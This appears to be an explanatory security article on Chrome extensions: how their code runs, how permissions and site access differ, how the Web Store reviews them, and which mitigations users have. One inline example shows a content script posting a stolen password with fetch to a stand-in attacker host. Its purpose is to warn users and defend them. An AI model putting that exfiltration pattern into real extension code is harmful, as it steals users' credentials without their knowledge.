


## What a Chrome extension actually is

At its core, a Chrome extension is a folder of plain web files — HTML, CSS, JavaScript, plus icons and other assets — with one required file: `manifest.json`. The manifest declares the extension's name, version, requested permissions, and which scripts run where.

A minimal extension can be two files in a folder. Load it via `chrome://extensions` → "Load unpacked" → pick the folder. No build step, no compilation. Larger extensions add bundlers and frameworks (Vite, webpack, React, TypeScript), but those are conveniences, not requirements.

But an extension is **not just a webpage**. The difference is two things:

1. It is loaded from a local folder (or `.zip`/`.crx`), not from a server.
2. The manifest grants it access to `chrome.*` APIs that ordinary web pages cannot touch.

## Where an extension's code runs

A useful mental model: **an extension runs *alongside* the browser, not inside a webpage**. Its code is split across three surfaces that each have different powers.

| Surface | DOM access | `chrome.*` API access |
|---|---|---|
| Service worker (background) | None | Full |
| Popup / options page | Own DOM only | Full |
| Content script (in page) | Full DOM of the host page | Limited (mainly `chrome.runtime` for messaging) |

The split exists for security: the powerful `chrome.*` APIs are kept away from page JS (which might be hostile), and the DOM-touching code is kept away from the powerful APIs. They communicate by message passing.

## The chrome.* API surface

Chrome exposes a large set of APIs. The main families:

- **Tabs & windows** — `chrome.tabs`, `chrome.windows`, `chrome.sessions`
- **Running code in pages** — `chrome.scripting`, `chrome.declarativeContent`
- **Storage & state** — `chrome.storage` (`local` / `sync` / `session`), `chrome.cookies`
- **Network** — `chrome.webRequest` (mostly observe-only in V3), `chrome.declarativeNetRequest` (rule-based blocking/redirecting; ad blockers use this)
- **Navigation & history** — `chrome.webNavigation`, `chrome.history`, `chrome.bookmarks`
- **UI surfaces** — `chrome.action` (toolbar button), `chrome.contextMenus`, `chrome.notifications`, `chrome.omnibox`, `chrome.sidePanel`
- **Messaging** — `chrome.runtime`, `chrome.tabs.sendMessage`
- **Downloads & files** — `chrome.downloads`, `chrome.fileSystem` (ChromeOS)
- **Identity & privacy** — `chrome.identity`, `chrome.privacy`
- **Devtools** — `chrome.devtools.*`
- **Misc** — `chrome.alarms` (replaces `setInterval` in service workers), `chrome.commands` (keyboard shortcuts), `chrome.i18n`, `chrome.permissions`

Every API must be declared in `manifest.json` under `"permissions"` (or `"host_permissions"` for site access).

Full reference: developer.chrome.com/docs/extensions/reference/api

## Permissions vs. site access

Chrome shows two distinct things on an extension's details page. They look similar but control different things.

### Permissions — *what APIs the extension can call*

These are the `chrome.*` capabilities declared in the manifest. Chrome surfaces them as human-readable lines like:

- "Read your browsing history"
- "Manage your downloads"
- "Display notifications"
- "Read and modify your bookmarks"

Permissions are **all-or-nothing**. You can't grant `chrome.history` for some sites only. You accept them at install time and mostly can't toggle them afterward.

### Site access — *which websites the extension's content scripts can touch*

This controls where the extension can **read and modify page content** — the DOM, forms, what you type, what's displayed. It corresponds to `host_permissions` in the manifest.

Chrome offers three settings, configurable **after install**:

1. **On click** — extension only runs when you click its toolbar icon. Safest.
2. **On specific sites** — you whitelist domains.
3. **On all sites** — runs everywhere automatically.

| | Permissions | Site access |
|---|---|---|
| Controls | API capabilities | Where content scripts run |
| Set at | Install time | Anytime |
| User can change | No (mostly) | Yes |
| Example abuse if broad | `chrome.cookies` → session hijacking | Read passwords on every site |

## What a malicious extension can do

With the right permissions, an extension can:

- Read everything on every page you visit, including form fields as you type (passwords, credit card numbers, identifiers)
- Read cookies and hijack logged-in sessions
- Modify pages — inject fake login forms, alter displayed balances, rewrite account numbers in transfers
- Read clipboard contents
- Watch all network requests
- Take screenshots of tabs

The single scariest permission Chrome shows at install time is:

> *"Read and change all your data on all websites"*

That one line (`<all_urls>` host access) enables nearly everything above on every site, including banking and email.

## "All sites" is the default — and why

If you check the extensions you already have installed, you will probably find that almost all of them are set to **"On all sites"**. That is by design — the developer's manifest typically declares `"host_permissions": ["<all_urls>"]` and Chrome grants it on install. The extension "just works" everywhere from the first second.

Most extensions request `<all_urls>` even when they do not need it, because:

1. **Convenience for the developer** — one manifest works everywhere.
2. **Future-proofing** — extra access already there for features added later.
3. **Tutorials teach it as the default path.**
4. **Users will not notice** — the install prompt appears once and disappears.

## The exfiltration gap

A common (and reasonable) intuition: *"Even if the extension reads my password, it still needs a way to send it to the attacker, right? And I do not see an 'internet access' permission anywhere."*

Unfortunately:

> **Any extension can make outbound network requests freely. There is no permission for it, and Chrome does not surface it in the UI.**

A content script can `fetch("https://attacker.example.com/steal", { method: "POST", body: stolenPassword })` directly, or pass the data to the service worker via `chrome.runtime.sendMessage` and let the background script do the same. No prompt, no permission, no indicator.

Why:

- Extensions are built on web tech; the web assumes JS can make HTTP requests.
- `host_permissions` controls which sites the extension can **observe/modify** (intercept requests, inject scripts, read responses with credentials) — not which destinations it can **send** to.
- CORS does not help — it protects servers from unwanted cross-origin reads, not users from data being sent out.

What *does* exist:

- **Manifest V3 Content Security Policy** — extensions cannot load and execute remote JS. This stops one class of attack (silently updating malicious code after store review) but does **not** stop `fetch` from leaving the browser.
- **Chrome Web Store policies** — extensions must disclose data collection. Honor system; violation is grounds for removal, but only after it is discovered.
- **The privacy practices tab** on each store listing is **self-declared by the developer**.

## What the Chrome Web Store actually guarantees

It does not. Google's own terms disclaim safety:

> Google does not warrant that extensions are free of harmful components. Users install at their own risk.

What Google does:

- **Automated scanning** for known malware patterns on submission
- **Manual review** for *some* extensions — especially ones asking for broad permissions, but not all
- **Policy enforcement** — publish developer policies, remove violators when caught
- **Manifest V3** — structurally restricts some abuse classes (no remote code execution, declarative network rules instead of arbitrary request interception)

What Google does **not** do:

- Guarantee any extension is safe
- Audit source code thoroughly for every update
- Verify developer identity rigorously (an email and a $5 fee)
- Re-review extensions after ownership changes
- Catch most malicious updates *before* they reach users

The track record bears this out — every couple of years, outside researchers (not Google) discover tranches of hundreds of extensions, with millions of combined installs, doing ad fraud, search hijacking, or data exfiltration, sometimes after running for years. "Featured" badges and high install counts mean nothing.

The store is closer to an app store with rules and reactive enforcement than a curated, audited marketplace — **innocent until reported**, not **verified safe**.

## Why bad code keeps getting in

Even though extensions are not opaque binaries, JavaScript is in some ways *worse* for review:

- Obfuscated/minified JS is hard to audit but trivial to ship
- An extension can pass review with benign code, then push a malicious update — auto-applied to users
- Extensions can be **sold**. A trusted extension with millions of users changes hands; one update; instant mass compromise. This has happened repeatedly (e.g., The Great Suspender, Nano Adblocker).
- Dependencies (npm packages) get compromised upstream; the developer ships the result without knowing.

The trust model — "show permissions at install, then get out of the way" — was reasonable when there were a few hundred developers and a few thousand users. It does not scale to 200,000+ extensions, billions of installs, and an industry that buys and sells extension userbases.

## The summary that should worry you

Putting it together:

- 🛑 Google does not make extensions safe; the store is reactive, not curated.
- 🛑 Even though extensions are JS, not binaries, bad code routinely gets in — via updates, ownership transfers, and supply chain.
- 🛑 By default, a new extension can read all content on all pages.
- 🛑 It can send web requests to any destination with no permission and no UI indication.
- 🛑 The Web Store's "privacy practices" tab is the developer declaring, on the honor system, that they are not bad guys.

That is essentially a trust-on-faith system **wearing the costume of a permission system**.

## Practical mitigations

In rough order of effectiveness:

- [ ] **Install as few extensions as possible.** Every extension is a liability.
- [ ] **Use a separate Chrome profile (or different browser) for sensitive activity** — banking, healthcare, primary email — with zero extensions installed.
- [ ] **Set site access to "On click" by default**, loosening only for extensions that genuinely need passive site-wide access.
- [ ] **Review installed extensions every few months.** Remove anything unused.
- [ ] **Watch for ownership changes.** A "new maintainer" announcement on a trusted extension means: treat it as untrusted again.
- [ ] **Prefer open-source, community-reviewed extensions** (uBlock Origin, Bitwarden, etc.) over closed-source ones from unknown developers.

Rules of thumb for site access:

| Extension type | Site access |
|---|---|
| Password manager | All sites (legitimate; needed to autofill) |
| Ad blocker / privacy tool you trust | All sites |
| Dark mode / theme | Try "On click" first |
| Site-specific tools (YouTube enhancer, GitHub tool) | Specific sites only |
| PDF viewer, screenshot tool, color picker, ruler | On click |
| Translation, grammar check | On click if you can tolerate the friction |

The small loss of seamlessness ("I have to click the icon first") is paid back in full the day one of your extensions goes rogue.

## A design improvement Chrome could ship tomorrow

A natural follow-up: **why does Chrome not let you block an extension's internet access, the way you can already restrict its site access?**

It would be:

- **Technically trivial.** Chrome already gates `fetch` and `XMLHttpRequest` per-extension internally — adding a toggle is config work, not architecture.
- **Backward compatible.** Default to "allowed" for existing extensions; let users opt in to restriction. Nothing breaks.
- **Consistent with the rest of the model.** Per-extension site access, per-extension "On click," per-extension shortcuts — per-extension network access fits the same shape.
- **Massively impactful.** It neutralizes the exfiltration step. Even if an extension reads your password, it cannot send it anywhere.

A surprisingly large fraction of useful extensions are **pure local computation** and have no business reaching the internet at all:

- Dark Reader (pure CSS manipulation)
- Tab managers / tab groupers
- Bookmark organizers
- Vimium / keyboard-driven navigation
- JSON formatters, color pickers, rulers, screenshot tools
- Reader mode / readability
- Cookie cleaners and other local privacy tools

Extensions that **do** legitimately need network access — password managers, translators, grammar tools, cloud notebooks, ad blockers fetching filter lists — could be left allowed, ideally with an allowlist of destinations.

Why Chrome has not shipped this — plausible reasons, none of them strong:

1. Many "free" extensions monetize by sending browsing data to analytics services. A "block internet" toggle breaks that revenue model.
2. Extensions phone home for update checks and feature flags.
3. Internal reluctance to add toggles that "confuse" users.
4. Adding such a toggle would implicitly tell users *"you should be worried about this"* — drawing attention to a risk Google may prefer to leave understated.

An OS-level firewall (Little Snitch, simplewall, OpenSnitch) is not a workaround, because Chrome runs all extensions inside the same process tree — you cannot get per-extension granularity that way. The toggle has to come from Chrome itself.

## Closing thought

The Chrome extension ecosystem is convenient, productive, and — under the hood — built on a trust model far weaker than the polished install UI suggests. Recognizing that is the first real defense. Tightening site access, separating profiles for sensitive work, and keeping the installed list small are the levers actually within your control today.
